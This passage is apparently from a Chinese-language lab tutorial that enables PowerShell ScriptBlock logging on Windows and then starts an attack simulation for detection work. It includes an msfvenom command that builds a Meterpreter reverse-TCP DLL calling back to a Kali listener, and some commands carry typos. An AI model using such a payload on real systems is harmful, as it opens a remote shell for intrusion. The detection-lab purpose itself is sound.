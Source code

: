**2.2配置PowerShell ScriptBlock日志**  
PowerShell 日志类型：Module、ScriptBlock logging、Script Execution、Transcription。为了收集脚本执行日志，将配置并激活 ScriptBlock。以管理员运行Powershell，执行如下命令：  
1）更改powershell执行策略，以允许后续配置更改；

```plain
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
```

2）新建ScriptBlockLogging注册表路径；

```plain
New-Item-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Force
```

3）新增EnableScriptBlockLogging 属性为DWORD并设置为1；

```plain
New-ItemProperty-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1 -PropertyType DWord -Forc
```

4）开启日志记录

```plain
wevtutil sl "Microsoft-Windows-PowerShell/Operational" /e:true
```

**2.3 其他软件**

```plain
Process Hacker：实时分析；Wireshark：流量分析。
```

**3、攻击模拟**

**3.1 生成dll文件**  
（1）在Kali VM使用msfvenom生成payload，msfvenom是Metasploit框架中的组件。命令如下：

```plain
sudo msfvenom -p windows/meterpreter/reverse_tcp Lhost=192.168.26.130 Lport=88 -f dll > /home/hacker/Desktop/evil.dll
```

Lhost 表示监听的主机，此处代表Kali主机，  
Lport 表示监听的端口.  
\-f 生成的文件类型，此处是dll。

成功执行后如下图所示：

[![](assets/1700442730-3d2278f40fcdcbd0e96623046a1bb855.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162624-feb90096-8522-1.png)
